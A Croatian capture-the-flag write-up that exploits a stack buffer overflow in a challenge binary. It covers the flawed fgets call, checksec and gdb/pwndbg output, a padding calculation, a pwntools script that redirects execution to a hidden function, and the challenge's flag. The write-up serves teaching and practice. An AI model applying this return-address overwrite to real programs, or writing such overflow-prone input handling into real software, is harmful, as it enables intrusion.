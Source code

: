 # Writeup

## Otkrivanje ranjivosti
Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **stack buffer overflow** kod promijene zone.

```
void promijeniZonu(){
	char priv[4];
	printf("Unesi novu zonu (3 znaka):\n");
	fgets(priv,44,stdin);
	strcpy(trenutnaZona,priv);
	printf("Zona promijenjena!\n");
}
```

U programu se za unos nove zone rezervira polje veličine 4 bajta, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 44 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.

```
└─$ checksec --file=poruka    
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2258 Symbols      No    0               0               poruka
```

Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.

## Objašnjenje ranjivosti

Kad je PIE omogućen, sustav koristi tehnologiju poput ASLR (Address Space Layout Randomization) za nasumično raspoređivanje adresa programa (npr. adrese funkcija, varijabla, stog...).
Na taj način, čak i ako napadač uspije izvršiti napade, neće moći predvidjeti gdje će se funkcije ili kritični podaci nalaziti u memoriji.
Zbog toga što program ne sadrži PIE, može se preurediti povratna adresa funkcije promijeniZonu na bilo koji drugu adresu.
To je moguće zbog toga što program pomoću fgets upisuje podatke izvan buffera.
U ovom slučaju želimo program preusmjeriti na adresu funkcije ispisiTajnuPoruku.
Potrebno je odrediti koji dio korisničkog unosa preuređuje povratnu adresu funkcije.
Za to se može koristiti program ```gdb``` u kombinaciji s ```pwndbg```.

Prvo treba pogledati na kojoj adresi se nalazi buffer:

```
─────────[ DISASM / x86-64 / set emulate on ]────────── 
 ► 0x401a2a <promijeniZonu+42> call fgets <fgets>
        s: 0x7fffffffddac <-- 0xffffddd000000000
		n: 0x2c
        stream: 0x4c45c0 (_IO_2_1_stdin_) <-- 0xfbad2288
```

Adresa gdje se nalazi naš buffer je ```0x7fffffffddac```.
Veličina buffera je ```0x2c```  (decimalno je to 44).

Zatim treba pogledati gdje se na stogu nalazi povratna adresa funkcije promijeniZonu:
```
────────[ STACK ]─────────
00:0000│ rsp         0x7fffffffdda0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
01:0008│ rax-4 rdi-4 0x7fffffffdda8 —▸ 0x401d45 (ocistiUlazniBuffer+10) ◂— cmp eax, 0xa
02:0010│ rbp         0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
03:0018│+008         0x7fffffffddb8 —▸ 0x402172 (main+302) ◂— jmp main+320
```

Povratna adresa funkcije se uvijek nalazi ispod rbp. U ovom slučaju, povratna adresa funkcije promijeniZonu se nalazi na ```0x7fffffffddb8```.

Da bi se izračunao potreban padding (udaljenost korisničkog unosa), potrebno je oduzeti adresu mjesta povratne adrese funkcije i adresu na kojoj se nalazi buffer.

```ddb8 - ddac = C = 12```

Izračunati padding je 12 bajtova. 
Sada je potrebno nakon 12 bajtova korisničkog unosa unijeti adresu funkcije ispisiTajnuPoruku.


## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava stack buffer overflow ranjivost u zadatku.
Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. 
Nakon pokretanja programa, skripta odabire opciju promijene zone (3) i zatim za novu zonu unosi korisnički unos koji preusmjerava izvođenje programa na adresu funkcije ispisiTajnuPoruku.


```
from pwn import *

io = process("./poruka")
elf = ELF("./poruka")

# = = = START

print(io.recvuntil(b"Odabir:"))
io.sendline(b"3")

print(io.recvuntil(b"Unesi novu zonu (3 znaka):"))

payload = b""
padding = b"A" * 12
ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])
#elf.sym["naziv"] = funkcije i varijable se zovu simboli, to uzme adresu tog simbola kao
#p64() = pakiraj ova 64 bita u format koji će naš kompjuter moći pročitati (jer on koristi little endian)

payload += padding + ispisiTajnuPoruku

# = = = END
io.sendline(payload)
print(payload)

io.interactive()

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[TYP0_Ov3rFl0w]```


